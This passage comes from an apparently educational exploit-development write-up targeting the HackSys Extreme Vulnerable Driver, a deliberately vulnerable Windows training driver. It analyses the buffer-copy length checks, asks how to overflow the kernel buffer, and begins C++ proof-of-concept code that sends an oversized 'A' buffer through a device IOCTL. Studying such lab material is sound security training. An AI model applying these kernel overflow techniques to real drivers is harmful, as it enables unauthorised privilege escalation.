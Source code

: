 As long as:

1. the length of our buffer + 4 is `< 0x800`,
2. the `Counter` variable (`edi`) is `<` the length of our buffer divided by 4, 
3. and the 4 byte value in `eax` is not `0BAD0B0B0`,

we will copy 4 bytes of our input buffer into the kernel buffer and then move onto the next 4 bytes in the input buffer to test criteria 2 and 3 again. 

There can't really be a problem with copying bytes from the user buffer into the kernel buffer unless somehow the copying exceeds the space allocated in the kernel buffer. If that occurs, we'll begin overwriting adjacent memory with our user buffer. How can we fool this length + `0x4` check?

## Manipulating `DWORD nInBufferSize`
First we'll send a vanilla payload to test our theories up to this point. Let's start by sending a buffer full of all `\x41` chars and it will be a length of `0x750` (null-terminated). We'll use the `sizeof() - 1` method to form our `nInBufferSize` parameter and account for the null terminator as well so that everything is accurate and consistent. Our code will look like this at this point:
```cpp
#include <iostream>
#include <string>
#include <iomanip>

#include <Windows.h>

using namespace std;

#define DEVICE_NAME         "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL               0x222027

HANDLE get_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver.\n";
        exit(1);
    }

    cout << "[>] Handle to HackSysExtremeVulnerableDriver: " << hex << hFile
        << "\n";

    return hFile;
}

void send_payload(HANDLE hFile) {

    

    BYTE input_buff[0x751] = { 0 };

    // 'A' * 1871
    memset(
        input_buff,
        '\x41',
        0x750);

    cout << "[>] Sending buffer of size: " << sizeof(input_buff) - 1  << "\n";
```